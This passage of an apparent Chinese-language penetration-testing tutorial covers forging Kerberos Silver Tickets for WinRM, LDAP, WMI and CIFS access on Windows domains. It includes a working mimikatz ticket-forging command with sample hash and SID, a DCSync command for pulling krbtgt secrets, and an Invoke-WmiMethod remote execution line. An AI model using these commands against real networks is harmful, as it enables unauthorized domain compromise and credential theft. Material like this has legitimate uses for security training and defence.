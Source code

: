 ##### [](#Silver-Ticket连接到以Windows管理员权限计算机上的PowerShell远程执行 "Silver Ticket连接到以Windows管理员权限计算机上的PowerShell远程执行")Silver Ticket 连接到以 Windows 管理员权限计算机上的 PowerShell 远程执行

为 “http” 服务和 “ wsman ” 服务创建 Silver Ticket，以获得目标系统上的 WinRM 和或 PowerShell Remoting 的管理权限。

注入两张 HTTP＆WSMAN 白银票据后，我们可以使用 PowerShell 远程（或 WinRM 的）反弹出目标系统 shell。首先 New-PSSession 使用 PowerShell 创建到远程系统的会话的 PowerShell cmdlet，然后 Enter-PSSession 打开远程 shell。

##### [](#白银票据证连接到具有管理员权限Windows计算机上的LDAP "白银票据证连接到具有管理员权限Windows计算机上的LDAP")白银票据证连接到具有管理员权限 Windows 计算机上的 LDAP

为 “ldap” 服务创建 Silver Ticket 以获得目标系统（包括 Active Directory）上 LDAP 服务的管理权限。

利用 LDAP Silver Ticket，我们可以远程访问 LDAP 服务来获得 krbtgt 的信息

**注：**

```
lsadump::dcsync
```

​ 向 DC 发起一个同步对象（可获取帐户的密码信息）的质询。需要的权限包括管理员组（Administrators），域管理员组（ Domain Admins）或企业管理员组（Enterprise Admins）以及域控制器的计算机帐户，只读域控制器默认不允许读取用户密码数据。

##### [](#白银票据证连接到具有管理员权限Windows计算机上的WMI "白银票据证连接到具有管理员权限Windows计算机上的WMI")白银票据证连接到具有管理员权限 Windows 计算机上的 WMI

为 “HOST” 服务和 “ rpcss ” 服务创建白银票据以使用 WMI 在目标系统上远程执行命令。

注入这些白银票据之后，我们可以通过运行 “klist” 来确认 Kerberos TGS 票据在内存中注入白银票据后，我们可以通过 “传票” 来调用 WMIC 或 Invoke-WmiMethod 在目标系统上运行命令。

```
Invoke-WmiMethod win32_process -ComputerName $ Computer -Credential $ Creds -name create -argumentlist“$ RunCommand”
```

##### [](#访问域控上“cifs”服务实列 "访问域控上“cifs”服务实列")访问域控上 “cifs” 服务实列

首先需要获得如下信息：

```
domain
/sid
/target:目标服务器的域名全称，此处为域控的全称
/service：目标服务器上面的kerberos服务，此处为cifs
/rc4：计算机账户的NTLM hash，域控主机的计算机账户
/user：要伪造的用户名，此处可用silver测试
```

使用 mimikatz 执行如下命令导入 Silver Ticket

```
mimikatz "kerberos::golden /domain:test.local /sid:S-1-5-21-4155807533-921486164-2767329826 /target:WIN-8VVLRPIAJB0.test.local /service:cifs /rc4:d5304f9ea69523479560ca4ebb5a2155 /user:silver /ptt"
```

此时可以成功访问域控上的文件共享

